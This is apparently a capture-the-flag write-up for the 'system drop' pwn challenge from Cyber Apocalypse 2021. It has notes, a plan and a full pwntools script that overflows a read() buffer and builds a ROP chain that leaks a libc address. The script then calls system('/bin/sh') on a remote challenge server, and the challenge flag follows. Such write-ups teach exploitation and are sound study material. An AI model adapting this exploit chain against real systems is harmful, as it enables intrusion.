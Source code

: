 ```yaml
---
title: system drop
date: 2021-04-23
categories: [pwn]
tags: [cyberapocalpyse2021]
toc: false
---
```



#### Notes:
- Binary only comes with NX enabled as mitigation
- read(0, buffer, 0x100) for buffer overflow, except we are limited on gadgets
- We can use `mov eax, 0x1` in main as part of our ROP chain, this was originally intended for the program to return a status code of 1
- Originally this challenge gave me srop vibes. I tried a few srop payloads and used alarm() to set eax to 0xf to trigger the sig return syscall. For some reason my registers wern't set as I wanted it. But after seeing the `mov eax, 0x1` instruction, I realized you can just leak an address using the write() syscall and do a standard system('/bin/sh\x00') rop chain

#### Plan:
- Leak alarm libc address and calculate libc base using write(1, alarm_GOT, 0x100)
- Return back to _start and send second payload with calculated system and '/bin/sh' 

#### main:

![Snippet of main()](/assets/img/cyberapoc/systemdrop/main.png)

#### PoC:

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template system_drop
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('system_drop')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *main+46
b *0x40053b
b *0x400537
b *0x400430
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

#io = start()
io = remote('138.68.141.182', 32321)

pop_rdi_ret = 0x4005d3
pop_rsi_pop_r15_ret = 0x4005d1
ret = 0x400416
_start = 0x400450
syscall = 0x40053b
alarm_got = 0x601018

payload = flat({
    40: p64(pop_rdi_ret),
    48: p64(0x1),
    56: p64(pop_rsi_pop_r15_ret),
    64: p64(alarm_got),
    72: p64(0x0),
    80: p64(syscall),
    88: p64(ret),
    96: p64(_start)
})

io.sendline(payload)

leak = int.from_bytes(io.recv(30)[0:8], 'little')
print('Leak: ', hex(leak))

libc_base = leak - 0x0e4610
print('Libc base: ', hex(libc_base))

system = libc_base + 0x04f550
str_bin_sh = libc_base + 0x1b3e1a
payload2 = flat({
    40: p64(pop_rdi_ret),
    48: p64(str_bin_sh),
    56: p64(ret),
    64: p64(system)
})

io.sendline(payload2)

io.interactive()

# CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}
```